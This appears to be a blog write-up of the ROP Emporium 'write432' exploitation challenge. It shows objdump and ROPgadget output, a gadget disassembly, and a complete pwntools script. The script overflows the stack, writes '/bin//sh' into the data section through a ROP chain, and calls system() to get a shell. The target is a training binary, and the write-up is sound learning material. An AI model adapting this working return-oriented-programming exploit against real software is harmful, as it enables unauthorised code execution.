 ```yaml
---
layout: post
title: ROP Emporium - write432
---
```


### Instruction
Once you've figured out how to write your string into memory and where to write it, go ahead and call system() with its location as your only argument. Are you going to cat flag.txt or drop a shell with /bin/sh? Try to wrap some of your functionality in helper functions, if you can write a 4 or 8 byte value to a location in memory, can you craft a function (in python using pwntools for example) that takes a string and a memory location and returns a ROP chain that will write that string to your chosen location? Crafting templates like this will make your life much easier in the long run.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Find sh addr in data section
```bash
objdump -D write432 | grep data_start | awk '{print $1}'
```
- sh addr: 0x804a028

### Check function usefulGadgets
```
gef➤  disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```
- mov    DWORD PTR [edi],ebp

### ROPgadget to search gadgets
```bash
ROPgadget --binary write432 | grep "pop edi"
```
```
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
```
- 0x080486da : pop edi ; pop ebp ; ret

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('write432')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '/bin//sh'

DATA_START = 0x804a028
POP_EDI_POP_EBP = 0x080486da

rop = ROP(exe)
for _ in range(0, len(command), 4):
	rop.raw(POP_EDI_POP_EBP)
	rop.raw(DATA_START + _)
	rop.raw(command[_:_ + 4])
	rop.raw(exe.symbols['usefulGadgets'])

rop.system( DATA_START )

io.sendline(payload + rop.__str__())
io.interactive()
```